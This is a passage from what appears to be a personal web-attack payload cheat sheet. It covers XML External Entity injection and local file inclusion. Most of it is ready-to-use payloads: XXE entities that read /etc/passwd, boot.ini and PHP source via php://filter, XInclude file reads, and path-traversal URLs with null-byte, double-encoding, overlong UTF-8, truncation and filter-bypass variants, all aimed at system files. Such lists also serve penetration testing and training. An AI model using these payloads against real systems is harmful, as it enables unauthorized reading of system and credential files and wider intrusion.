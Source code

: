```yaml
---
layout: default
title : muzec - All About Payloads Cheat Sheet For XXE,LFI,RFI,SSTI,SSRF
---
```


### XML External Entity

An XML External Entity attack is a type of attack against an application that parses XML input and allows XML entities. XML entities can be used to tell the XML parser to fetch specific content on the server.


### Detect The Vulnerability
 
 Basic entity test, when the XML parser parses the external entities the result should contain "John" in `firstName` and "Doe" in `lastName.` Entities are defined inside the `DOCTYPE` element.
 
 ```
 <!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
 <userInfo>
  <firstName>John</firstName>
  <lastName>&example;</lastName>
 </userInfo>
 ```
 
 It might help to set the `Content-Type: application/xml` in the request when sending XML payload to the server.
 
 ### Exploiting XXE to retrieve files
  
To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways: 

1. Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.

2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

 For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server: 
 
 ```
 <?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```

This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the productId value. This causes the application's response to include the contents of the file: 
 
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### XXE Cheat Sheet


```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

Warning `SYSTEM` and `PUBLIC` are almost synonym.

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```



### Classic XXE Base64 encoded

```
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude attacks

When you can't modify the `DOCTYPE` element use the `XInclude` to target

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


###  Local File inclusion (LFI)

```
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application.

The Path Traversal vulnerability allows an attacker to access a file, usually exploiting a "reading" mechanism implemented in the target application
```

### Basic LFI

In the following examples we include the `/etc/passwd` file, check the `Directory & Path Traversal` chapter for more interesting files.

```
http://example.com/index.php?page=../../../etc/passwd
```

### Null byte

In versions of PHP below 5.3.4 we can terminate with null byte.

```
http://example.com/index.php?page=../../../etc/passwd%00
```

### Double encoding

```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

### UTF-8 encoding

```
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```

### Path and dot truncation

On most PHP installations a filename longer than 4096 bytes will be cut off so any excess chars will be thrown away.

```
http://example.com/index.php?page=../../../etc/passwd............[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd\.\.\.\.\.\.[ADD MORE]
http://example.com/index.php?page=../../../etc/passwd/./././././.[ADD MORE] 
http://example.com/index.php?page=../../../[ADD MORE]../../../../etc/passwd
```

### Filter bypass tricks

```
http://example.com/index.php?page=....//....//etc/passwd
http://example.com/index.php?page=..///////..////..//////etc/passwd
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```

### Remote File Inclusion (RFI)

